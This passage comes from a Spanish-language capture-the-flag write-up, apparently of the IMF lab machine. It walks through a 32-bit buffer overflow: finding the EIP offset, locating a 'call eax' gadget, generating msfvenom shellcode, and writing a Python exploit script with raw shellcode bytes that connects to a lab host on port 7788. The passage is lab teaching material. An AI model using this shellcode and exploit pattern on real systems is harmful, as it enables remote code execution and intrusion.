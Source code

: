 ![[Pasted image 20240115024736.png]]({%link assets/img/imf/36.png%})

>Se acontece un Segmentation Fault. Vemos que en el registro EAX se están rescribiendo un total de 152 Aes. Esto nos será de gran valor para un futuro. A su vez, el registro EIP también está siendo reescrito. Sabemos que el EIP contiene la dirección de la próxima instrucción a ejecutar. Vamos a ver la seguridad y a calcular el offset (es decir, el 'error') hasta llegar al EIP con `checksec`, `pattern create` y `pattern offset`respectivamente. 

![[Pasted image 20240115025156.png]]({%link assets/img/imf/37.png%})

![[Pasted image 20240115025515.png]]({%link assets/img/imf/38.png%})

>El número hexadecimal 0x41415641 representa el texto ASCII `AVAA`. Verificamos el offset:

![[Pasted image 20240115025451.png]]({%link assets/img/imf/39.png%})

>¡Genial! Ahora creamos nuestro propio patrón de Aes con `python3 -c 'print("A"*168 + "B" * 4)'`. 

![[Pasted image 20240115025921.png]]({%link assets/img/imf/40.png%})

>El EIP se reescribió a 0x42424242, es decir, el número de Bs que le indicamos. El EAX sigue con el mismo valor que cuando fuzzeamos por primera vez. Esto nos hace pensar en un posible vector de ataque.

```
EAX -> shellcode
EIP -> call eax 
```

>Podemos desensamblar al binario con la herramienta `objdump` y buscar una llamada al EAX para poder elaborar nuestro ataque.

![[Pasted image 20240115030357.png]]({%link assets/img/imf/41.png%})

>Bien. nos copiamos la dirección de esta llamada y la utilizaremos más adelante para realizar el ataque.

>Nos creamos nuestro shellcode con `msfvenom`. Importante: podemos listar los payloads de la herramienta con `msfvenom -l payloads`. Evitamos los badchars `\x00\x0a\x0d`.

![[Pasted image 20240115030434.png]]({%link assets/img/imf/42.png%})

>Procedemos a elaborar nuestro script en `python`.

```python
#!/usr/bin/env python3 

from struct import pack
import socket

offset = 168;

buf =  b""
buf += b"\xbb\x48\x8d\x41\xf1\xd9\xeb\xd9\x74\x24\xf4\x58"
buf += b"\x2b\xc9\xb1\x12\x31\x58\x12\x03\x58\x12\x83\xa0"
buf += b"\x71\xa3\x04\x01\x51\xd3\x04\x32\x26\x4f\xa1\xb6"
buf += b"\x21\x8e\x85\xd0\xfc\xd1\x75\x45\x4f\xee\xb4\xf5"
buf += b"\xe6\x68\xbe\x9d\x38\x22\x98\xd8\xd1\x31\x19\xf1"
buf += b"\xa9\xbf\xf8\x45\xcf\xef\xab\xf6\xa3\x13\xc5\x19"
buf += b"\x0e\x93\x87\xb1\xff\xbb\x54\x29\x68\xeb\xb5\xcb"
buf += b"\x01\x7a\x2a\x59\x81\xf5\x4c\xed\x2e\xcb\x0f"

payload = buf + b"B"*(offset-len(buf)) + pack("<L", 0x8048563); 

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.216.136", 7788));
s.recv(1024);
```